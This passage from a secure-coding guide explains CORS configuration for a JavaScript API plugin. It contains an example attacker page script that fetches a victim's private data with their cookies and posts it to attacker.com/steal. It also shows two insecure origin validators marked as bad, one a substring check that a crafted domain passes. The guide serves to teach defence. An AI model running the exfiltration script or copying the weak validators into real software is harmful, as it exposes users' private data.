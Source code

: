 **The Safe Way:**
```javascript
// SECURE - Explicit origins only
await api.use(CorsPlugin, {
  'rest-api-cors': {
    origin: ['https://app.mycompany.com', 'https://admin.mycompany.com'],
    credentials: true
  }
});
```

**Real Attack Example:**
```html
<!-- On attacker.com -->
<script>
// If wildcard+credentials worked, this would steal user data
fetch('https://api.yourcompany.com/user/private-data', {
  credentials: 'include'  // Would send victim's cookies
})
.then(r => r.json())
.then(data => {
  // Send stolen data to attacker
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```
### 2. Validate Origins Against a Whitelist

**The Rule:** Never trust user input. Always validate origins against known good values.

**Why This Matters:**
The `Origin` header comes from the browser, but:
- Can be spoofed in non-browser requests
- Might contain unexpected values
- Could be used for reconnaissance

**Bad Example - Dangerous Pattern:**
```javascript
// NEVER DO THIS - Accepts any origin
await api.use(CorsPlugin, {
  'rest-api-cors': {
    origin: (origin) => {
      return true; // Accepts everything!
    }
  }
});

// ALSO BAD - Weak validation
await api.use(CorsPlugin, {
  'rest-api-cors': {
    origin: (origin) => {
      return origin.includes('mycompany'); // subdomain.mycompany.evil.com would pass!
    }
  }
});
```
